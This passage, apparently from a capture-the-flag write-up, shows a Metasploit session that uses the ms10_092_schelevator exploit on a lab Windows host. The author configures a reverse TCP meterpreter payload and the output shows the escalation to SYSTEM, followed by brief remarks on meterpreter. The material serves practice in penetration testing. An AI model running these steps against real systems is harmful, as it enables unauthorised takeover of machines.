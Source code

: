 I tried `exploit/windows/local/ms16_075_reflection`, since it was in both lists, but it did not work. Next one is `exploit/windows/local/ms10_092_schelevator`.


```
msf6 exploit(windows/local/ms16_075_reflection) > use exploit/windows/local/ms10_092_schelevator
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_092_schelevator) > set session 1
session => 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\qpkilTpvH.exe
[*] Creating task: eIoGPEjcV0BSgNH
[*] SUCCESS: The scheduled task "eIoGPEjcV0BSgNH" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\eIoGPEjcV0BSgNH...
[*] Original CRC32: 0x881f533
[*] Final CRC32: 0x881f533
[*] Writing our modified content back...
[*] Validating task: eIoGPEjcV0BSgNH
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] eIoGPEjcV0BSgNH                          1/2/2021 6:08:00 ��    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "eIoGPEjcV0BSgNH" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "eIoGPEjcV0BSgNH" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.49.137
[*] SUCCESS: Attempted to run the scheduled task "eIoGPEjcV0BSgNH".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.21:4444 -> 10.129.49.137:51631) at 2021-01-21 14:56:12 -0500
[*] SUCCESS: The scheduled task "eIoGPEjcV0BSgNH" was successfully deleted.
[*] SCHELEVATOR

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

And we finally get root. This really showed me how powerful meterpreter really is. I felt sort of helpless with the normal shell. As I did not get any feedback from many commands, powershell did not work, and the website needed 30 seconds per refresh.
